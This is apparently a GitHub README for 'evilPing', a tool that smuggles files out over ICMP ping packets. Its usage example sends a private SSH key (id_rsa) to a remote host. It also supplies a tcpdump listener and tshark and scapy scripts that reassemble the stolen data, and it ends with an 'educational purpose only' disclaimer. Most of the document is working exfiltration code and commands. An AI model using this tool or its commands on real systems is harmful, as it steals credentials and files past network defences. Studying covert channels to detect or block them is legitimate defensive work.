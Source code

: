 # evilPing
Sending file through ICMP packet using PING

This tools will convert the data into hexadecimal and send through ICMP packet in each block. if the connection not stable or any packet failed to send, the script will retry sending the failed data first before go to the next block data

![Example Running](img/test.png)


### Usage
```
Usage: ./evilPing.sh <file> <host>
```
Example
```
./evilPing.sh id_rsa 192.168.1.2
```

### Listening server for receiving ICMP packet using TCPdump
```
sudo tcpdump -i any -s 0 'icmp' -w evilPing-received.pcap
```

### Extract data with tshark
```
tshark -r evilPing-received.pcap -T fields -e data -Y ip.src==192.168.1.1 -Y icmp.type==8 | cut -c 17-48 | xxd -r -p
```

### Extract data with scapy
```
#!/usr/bin/env python3

from scapy.all import *

src_ip = '192.168.56.1'
packet = rdpcap('evilPing-received.pcap')
data = b''

for pkt in packet:
    if pkt[IP].src == src_ip and pkt[ICMP].type == 8:
        data += pkt[Raw].load[16:32]

with open('output', 'wb') as w:
    w.write(data)
```

#### legal disclaimer
This tools is for educational purpose only, usage of evilPing for attacking targets without prior mutual consent is illegal. Developers assume no liability and are not responsible for any misuse or damage caused by this program

